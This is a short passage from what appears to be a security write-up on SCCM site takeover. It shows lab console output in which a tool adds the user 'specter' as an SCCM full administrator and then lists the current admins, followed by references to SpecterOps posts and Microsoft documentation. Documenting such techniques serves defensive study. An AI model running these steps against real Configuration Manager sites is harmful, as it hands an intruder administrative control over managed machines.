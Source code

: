                         UserName: specter                                                                                                           
                        UserPrincipalName: specter@internal.lab                                                                                        
                        ------------------------------------------                                                                                            
    () (C:\) >> add_admin specter S-1-5-21-2391214593-4168590120-2599633397-1109
    [06:53:19 PM] INFO     Tasked SCCM to add specter as an administrative user.                                                                                 
    [06:53:19 PM] INFO     [+] Successfully added specter as an admin.                                                                                           
    () (C:\) >> show_admins 
    [06:53:20 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
    [06:53:20 PM] INFO     Current Full Admin Users:                                                                                                             
    [06:53:20 PM] INFO     lab\Administrator                                                                                                                     
    [08:46:39 PM] INFO     specter 
    ```

## References
- Chris Thompson, [SCCM Site Takeover via Automatic Client Push Installation](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)
- Garrett Foster, [SCCM Hierarchy Takeover with High Availability](https://medium.com/specter-ops-posts/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43)
- Microsoft, [Site server high availability in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/configure/site-server-high-availability)